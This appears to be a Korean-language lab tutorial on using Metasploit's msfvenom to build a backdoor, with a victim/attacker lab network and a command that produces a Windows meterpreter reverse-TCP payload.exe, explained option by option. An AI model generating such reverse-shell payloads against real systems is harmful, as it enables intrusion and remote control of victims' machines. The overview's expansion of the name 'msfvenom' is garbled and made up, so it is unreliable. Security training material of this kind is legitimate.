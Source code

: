 # MSF(Meta Sploit Framework, 해킹도구)를 이용한  Backdoor(백도어, 악성코드를 생성하는 도구) 해킹

## 1. 개요

### msfvenom
- Meta Sploit Framework(작업 환경) Virtualization Environment Negleted Operations Manupulation 
- 메트 스플로잇 프레임워크의 가상환경을 무시하는 운영 속임수를 말한다.
- 해킹도구를 사용하는 작업환경에서 가상 환경으로 작업할 수 있도록 하는 전체적인 작업 형태

### Meta Sploit 생성기를 이용한 생성
- 메타 스플로잇 프레임워크의 가상환경을 무시하는 운영 속임수에 필요한 데이터를 생성하는 것
- 해커가 실제 공격 대상이 되는 pc에 전송하려는 데이터(악성코드) 또는 침투 성공 후 본격적으로 수행할 일들의 총칭

## 2. 🖥️ 실습 환경 (NAT 구성)

### ✅ Windows 10
- IP: `192.168.10.130`
- 게이트웨이: `192.168.10.2`
- DNS: `192.168.10.2`

### ✅ Kali(Attacker)
- IP: `192.168.10.128`
- 게이트웨이: `192.168.10.2`
- DNS: `192.168.10.2`


## 3. 사용법

```
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```


---

### 📌 명령어 구성 설명

| 항목 | 설명 |
|------|------|
| `/usr/bin/msfvenom` | msfvenom 명령어 실행 |
| `-p windows/meterpreter/reverse_tcp` | **Payload(유효 탑재량)**<br>→ Windows 시스템 대상, Meterpreter 리버스 쉘 |
| `LHOST=<IP>` | **공격자 IP 주소** (Listener가 대기할 IP) |
| `(옵션) LPORT=<포트>` | **공격자 포트 번호** (기본은 4444, 필요시 변경 가능) |
| `-f exe` | **출력 파일 포맷** 지정 (여기서는 `.exe` 실행 파일) |
| `-o payload.exe` | **생성될 악성코드 파일 이름**<br>→ 원하는 이름으로 지정 가능 |

---